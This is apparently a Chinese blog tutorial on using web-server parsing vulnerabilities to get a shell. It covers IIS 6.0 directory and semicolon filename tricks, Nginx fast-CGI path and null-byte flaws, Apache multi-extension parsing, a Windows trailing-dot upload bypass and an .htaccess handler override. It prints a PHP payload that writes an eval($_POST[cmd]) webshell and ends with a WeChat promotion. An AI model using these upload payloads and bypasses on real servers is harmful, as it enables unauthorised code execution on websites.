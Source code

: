 ```yaml
---
layout: post
category: binghe-code-hack
title: 各种解析漏洞拿shell
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 各种解析漏洞拿shell
lock: need
---
```


# 各种解析漏洞拿shell

## IIS 6.0解析漏洞

IIS 6.0解析利用方法有两种

## 目录解析

```bash
 /xx.asp/xx.jpg
```

## 文件解析

```bash
 wooyun.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 wooyun.asp，那么

```bash
/wooyun.asp/1.jpg
```

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```bash
wooyun.asp;.jpg
```

会被服务器看成是wooyun.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```bash
 /wooyun.asa
 /wooyun.cer
 /wooyun.cdx
```

乌云上的IIS 6.0解析漏洞利用案例

[http://www.wooyun.org/searchbug.php?q=IIS6.0](http://jump.bdimg.com/safecheck/index?url=x+Z5mMbGPAu1LJqUU6N6bPwYE5jYY0erwhch2HTMVMClV4srKPs80oVo9b2RHyJaNX2c8GT2w8o9uaWWhw0XNAjvrJznv9sKyV+a9HOSQ5uf9gu4VD5hJMGsrMXUaIpg1vI4wK0nw69B6Rwt01WTC3Y9qHh6BM0y)

## IIS 7.0/ Nginx <8.03畸形解析漏洞

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```bash
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?> 
```

的文件，然后访问wooyun.jpg/x.php,在这个目录下就会生成一句话木马 shell.php

这个漏洞案例

* WooYun: 用友软件某分站SQL注入漏洞+nginx解析漏洞
* WooYun: 新浪网分站多处安全漏洞（nginx解析+SQL注射等）小礼包
* WooYun: kingsoft.com某x级域名nginx解析漏洞+爆路径

## Nginx <8.03 空字节代码执行漏洞

影响版本0.5.,0.6, 0.7 <= 0.7.65, 0.8 <= 0.8.37 Nginx在图片中嵌入PHP代码然后通过访问 xxx.jpg%00.php 来执行其中的代码 Nginx 空字节代执行漏洞案例[http://www.wooyun.org/searchbug.php?q=%2500.php](http://jump.bdimg.com/safecheck/index?url=x+Z5mMbGPAu1LJqUU6N6bPwYE5jYY0erwhch2HTMVMClV4srKPs80oVo9b2RHyJak+PNtwAIfGCgHZ+Fsy3GyIQ8yExvH7HOsIk1gGycfXV71W/t7TguM+xzIgsPTqM7t9C+S0h3NSVBLMQEJGI5JcqrwRgpxE70MDxm7iZ2BjQ=)

## Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 wooyun.php.owf.rar ".owf"和".rar" 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个wooyun.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

## Apache解析漏洞案例

 [空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```bash
SetHandler application/x-httpd-php
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)